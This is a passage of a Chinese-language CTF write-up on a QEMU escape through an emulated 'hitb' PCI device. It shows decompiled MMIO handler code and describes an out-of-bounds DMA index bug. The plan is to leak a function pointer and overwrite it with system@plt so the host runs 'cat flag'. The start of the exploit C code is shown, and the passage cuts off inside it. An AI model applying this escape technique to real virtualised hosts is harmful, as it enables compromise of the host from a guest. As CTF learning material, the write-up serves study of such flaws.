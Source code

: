 ```
      else if ( addr > 0x20 )
      {
        if ( addr == 96 )
        {
          v6 = (val | opaque->irq_status) == 0;
          opaque->irq_status |= val;
          if ( !v6 )
            hitb_raise_irq(opaque, 0x60u);
        }
        else if ( addr == 100 )
        {
          v5 = ~val;
          v6 = (v5 & opaque->irq_status) == 0;
          opaque->irq_status &= v5;
          if ( v6 && !msi_enabled(&opaque->pdev) )
            pci_set_irq(&opaque->pdev, 0);
        }
      }
      else if ( addr == 4 )
      {
        opaque->addr4 = ~val;
      }
      else if ( addr == 8 && (opaque->status & 1) == 0 )
      {
        qemu_mutex_lock(&opaque->thr_mutex);
        opaque->fact = v4;
        _InterlockedOr(&opaque->status, 1u);
        qemu_cond_signal(&opaque->thr_cond);
        qemu_mutex_unlock(&opaque->thr_mutex);
      }
    }
  }
}

```

### 3. 漏洞

漏洞在 hitb_dma_timer 内的 cpu_physical_memory_rw 函数，dma_buf[] 内的索引可控，就造成可以越界读写；

 

翻看前面的结构体发现，可以越界读 enc 地址，进行泄露，再将计算出的 system@plt 写入 enc 内，将 "cat flag" 写入 dma.buf

```
#include #include #include #include #include #include #include #include #include #include #include #include #include #include #define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)
 
#define DMA_BASE 0x40000
 
 
#define PAGE_SHIFT  12
#define PAGE_SIZE   (1 << PAGE_SHIFT)
#define PFN_PRESENT (1ull << 63)
#define PFN_PFN     ((1ull << 55) - 1)
 
char* pci_device_name = "/sys/devices/pci0000:00/0000:00:04.0/resource0";
 
unsigned char* tmpbuf;
uint64_t tmpbuf_phys_addr;
unsigned char* mmio_base;
 
unsigned char* getMMIOBase(){
 
```